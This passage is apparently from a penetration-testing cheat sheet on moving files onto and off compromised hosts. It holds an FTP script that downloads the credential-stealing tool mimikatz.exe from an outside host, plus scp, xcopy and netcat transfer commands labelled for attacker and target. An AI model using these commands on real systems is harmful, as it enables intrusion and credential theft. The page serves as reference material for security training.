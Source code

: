 {% tab title="WIndows Client" %}
```
#Work well with python. With pure-ftp use fusr:ftp
echo open 10.11.0.41 21 > ftp.txt
echo USER anonymous >> ftp.txt
echo anonymous >> ftp.txt
echo bin >> ftp.txt
echo GET mimikatz.exe >> ftp.txt
echo bye >> ftp.txt
ftp -n -v -s:ftp.txt
```
{% endtab %}
{% endtabs %}

## TFTP

<details><summary>TFTP</summary></details>

## SCP

```
Get file
# scp user@<remoteip>:/tmp/file /tmp/file

Put file
# scp /tmp/file user@<remoteIP>:/tmp/file
```

## Windows xcopy

```
> xcopy /s \\<ip>\dir C:\local
```

## NetCat from target

```
(Target) # nc -nvlp 55555 > file
(Attacker) # nc [target] 55555 < file
```

## Non-interactive shell

<details><summary>Non-interactive shell</summary></details>

## Powershell

<details><summary>Powershell</summary></details>

## Uploads with windows scripting languages
